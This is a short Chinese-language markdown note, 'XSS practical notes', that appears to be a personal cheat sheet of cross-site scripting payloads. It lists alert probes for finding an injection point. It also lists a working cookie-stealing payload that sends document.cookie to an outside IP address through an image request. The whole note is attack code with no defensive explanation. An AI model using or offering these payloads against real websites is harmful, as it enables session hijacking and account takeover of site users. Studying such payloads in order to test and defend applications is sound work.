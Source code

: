 # XSS 实战小记

-  寻找注入点

```
<script>alert(1)</script>
```

-  获取 Cookie

```
<script>alert(document.cookie)</script>

<script>new Image().src="http://10.10.10.5/?c="+document.cookie;</script>
```